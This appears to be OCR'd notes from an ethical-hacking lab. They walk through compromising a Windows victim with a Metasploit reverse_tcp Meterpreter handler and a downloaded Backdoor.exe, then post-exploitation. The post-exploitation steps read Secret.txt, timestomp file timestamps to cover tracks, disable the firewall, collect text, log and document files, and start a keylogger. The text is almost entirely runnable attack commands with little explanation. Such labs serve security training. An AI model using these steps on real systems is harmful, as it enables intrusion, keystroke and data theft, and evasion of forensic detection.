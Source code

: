 **Exploiting Victim Machine**

- Launch Metasploit:
   ```bash
   msfconsole
   ```

- In Metasploit:
    ```bash
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST 10.10.1.13
    show options
    exploit -j -z
    ```

- On Victim machine, open a web browser, and visit `http://10.10.1.13/share`. Download Backdoor.exe.

**Post-Exploitation with Meterpreter**

- In attacker machine, check for the opened Meterpreter session:
    ```bash
    sessions -i 1
    ```

- Explore the compromised victim machine:
    ```bash
    sysinfo
    ipconfig
    getuid
    pwd
    ls
    cat Secret.txt
    ```

- Change MACE attributes of Secret.txt:
    ```bash
    timestomp Secret.txt -v
    timestomp Secret.txt -m "02/11/2018 08:10:03"
    ```

- Additional Post Exploitation Commands:

---

| Post Exploitation Commands                         | Description                                      |
|---------------------------------------------------|--------------------------------------------------|
| `net start` or `stop`                              | Starts or stops a network service                |
| `netsh advfirewall set currentprofile state off`   | Turn off firewall service for the current profile |
| `netsh advfirewall set allprofiles state off`      | Turn off firewall service for all profiles        |
| `findstr /E ".txt" > txt.txt`                     | Retrieves all text files (requires privileged access) |
| `findstr /E ".log" > log.txt`                     | Retrieves all log files                          |
| `findstr /E ".doc" > doc.txt`                     | Retrieves all document files                     |
| `search -f pagefile.sys`                          | Search for files                                 |
| `keyscan_start`                                   | Start keylogging                                 |
| `keyscan_dump`                                    | Dump captured keystrokes                         |
| `dir /a:h`                                        | List directories with hidden attributes          |
| `sc queryex type=service state=all`               | List available services                          |
| `netsh firewall show state`                       | Check firewall state                             |
